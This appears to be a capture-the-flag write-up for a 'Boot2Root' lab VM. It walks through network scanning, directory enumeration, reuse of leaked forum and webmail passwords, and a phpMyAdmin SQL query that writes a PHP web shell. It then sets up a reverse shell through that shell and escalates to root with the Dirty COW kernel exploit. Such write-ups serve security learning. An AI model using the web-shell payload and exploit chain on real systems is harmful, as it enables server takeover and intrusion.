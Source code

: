 # Boot2Root - Writeup1 Summary

## Network Discovery and Service Enumeration

The target VM operates in bridged network mode. Begin by identifying your local IP address:

```bash
ifconfig
```
Example output shows the local IP as 192.168.1.47. Perform a network scan to locate the VM:

```bash
nmap 192.168.1.0/24
```


## Identified target IP: 192.168.1.22
Open services:

```bash
FTP (21)

SSH (22)

HTTP (80)

HTTPS (443)

IMAP (143)

IMAPS (993)
```

## Web Server Analysis
Initial Reconnaissance
Access the web server on port 80:

```bash
curl 192.168.1.22
```

The response contains a basic HTML page .

## Directory Enumeration

Use dirb to discover hidden paths over HTTPS:

```bash
dirb https://192.168.1.22 -r
```

Discovered endpoints:

Forum: https://192.168.1.22/forum/

phpMyAdmin: https://192.168.1.22/phpmyadmin/

Webmail: https://192.168.1.22/webmail/


## Service Exploration
## 1-Forum Analysis
Review forum posts. A post by user lmezard contains SSH logs with an apparent password attempt:

Password: !q\]Ej?*5K5cy*AJ

Use these credentials to log into the forum (user: lmezard).

Discover the associated email: laurie@borntosec.net


## 2-Webmail Access
Log into webmail (Roundcube) using laurie@borntosec.net and the found password.

Retrieve database credentials from an email:
Username: root
Password: Fg-'kKXBj87E:aJ$

## 3-phpMyAdmin Exploitation
Access phpMyAdmin with the obtained credentials.

Execute SQL injection to create a web shell:

```bash
SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' 
INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

Server Compromise
Reverse Shell Setup
Host a netcat listener locally:

```bash
ncat -nvklp 1234
```

Trigger reverse shell via the web backdoor (URL-encoded Python reverse shell command):
```bash
curl --insecure 'https://192.168.1.22/forum/templates_c/backdoor.php?cmd=[ENCODED_COMMAND]'
```

Gain limited access as www-data.

## Privilege Escalation (Dirty Cow Exploit)
 1-Check kernel version (vulnerable to CVE-2016-5195):
```bash
uname -a  # Output: Linux BornToSecHackMe 3.2.0-91-generic-pae
```
    Upload/Write Exploit Code:
    Save as dirty.c (code reference => https://github.com/FireFart/dirtycow).

 2-Compile and execute Dirty Cow exploit:
```bash
 gcc dirty.c -o dirty -pthread -lcrypt
./dirty

```

 3-Set new root password via exploit and escalate privileges:

```bash
 su root
Password: [Exploit-defined password, e.g., 'q']
```

## Final Steps
Confirm root access:

```bash
id  # Output: uid=0(root) gid=0(root) groups=0(root)
```

Locate final flag:
```bash
cat /root/README  # Contains "CONGRATULATIONS!!!!"
```



